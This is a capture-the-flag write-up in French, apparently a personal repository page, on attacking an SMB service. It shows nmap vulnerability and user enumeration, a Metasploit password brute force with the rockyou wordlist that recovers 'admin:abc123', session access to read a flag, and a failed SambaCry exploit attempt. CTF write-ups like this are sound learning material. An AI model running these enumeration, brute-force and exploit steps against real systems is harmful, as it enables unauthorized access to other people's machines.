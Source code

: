 # exploit SMB sur le port 445

un peu plus "technique" car on va passer par metasploit qui a pléthore d'outils/plugin pour faciliter la vie.

on peut le faire à la main mais la flemme :D

ici plusieurs étapes: il faut trouver le nom du workgroup, le nom du user puis le password du user.

## énumération de failles

```sh
nmap -Pn -p 445 -script=vuln -oA vuln $RHOST
```

voir [rapport nmap](./vuln.nmap)

## énumération des partages

```sh
smbclient --no-pass --list //$RHOST
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	shared          Disk      
	IPC$            IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 51.68.36.97 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```

Faut qu'on apprenne le nom du workgroup :(

## énumération des users

avec `nmap`:

```sh
nmap --script smb-enum-users.nse -p445 $RHOST
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 05:45 CET
Nmap scan report for ns3122111.ip-51-68-36.eu (51.68.36.97)
Host is up (0.21s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
```

le DOMAIN est NS3122111. ajout dans ``.envrc`.

avec msf

```sh
use auxiliary/scanner/smb/smb_enumusers
set RHOST 51.68.36.97
run
...
domain NS3122111
user admin
```

confirmation du domain, ajout du user end `.envrc`

## recherche du mot de passe

avec metasploit, lancer `msfconsole`:

```sh
use auxiliary/scanner/smb/smb_login
set RHOST 51.68.36.97
set SMBDomain NS3122111
set SMBUser admin
set PASS_FILE /usr/share/wordlists/rockyou.txt
run

[+] 51.68.36.97:445       - 51.68.36.97:445 - Success: 'NS3122111\admin:abc123'

unset PASS_FILE
set CreateSession true
run

# on récupère une session
sessions -i -1
shares
shares -i shared
ls
cat flag.txt
FLAG2{a293ad2fb67c5e70a0cececbaf6304f5e72224a4}
```

## approfondissement avec les failles relevées dans le scan

idem avec metasploit

```sh
search CVE-2017-749 # la faille la mieux notée
use exploit/linux/samba/is_known_pipename
options
# il faut un répertoire accessible en écriture
```

recherche d'un répertoire en écriture
```sh
use auxiliary/scanner/smb/smb_login
set RHOST 51.68.36.97
set SMBDomain NS3122111
set SMBUser admin
set SMBPass abc123
set CreateSession true
run
sessions -u -1
shares -i shared
ls # pas de répertoire
mkdir test 
[-] Error running command mkdir: RubySMB::Error::UnexpectedStatusCode The server responded with an unexpected status code: STATUS_ACCESS_DENIED
# on en peut pas aller plus loin
```

Les organisateurs sont vraiment pas fun !
